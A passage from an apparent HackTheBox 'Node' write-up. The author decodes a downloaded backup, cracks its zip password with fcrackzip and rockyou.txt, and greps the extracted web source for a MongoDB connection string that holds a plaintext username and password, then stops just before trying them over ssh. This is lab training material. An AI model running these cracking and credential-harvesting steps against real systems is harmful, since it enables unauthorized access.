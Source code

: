 <img src="/assets/node7.png" alt="drawing" width="600"/>

I download a backup file, it was encrypted, so I ran:
```
cat myplace.backup | base64 --decode > myplace
```

I tried to unzip it, but it prompted me for a password. I therefore ran:
```
root@kali:~/htb/node# fcrackzip -D -p /usr/share/wordlists/rockyou.txt myplace
possible pw found: magicword ()

```
I then unzipped the file, and it was a backup of the var/www folder.
I did some search to look for potential credentials. I found the mongodb username and password:

```
root@kali:~/htb/node/var/www/myplace# grep mark app.js
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
```
I then tried to use these credentials with ssh: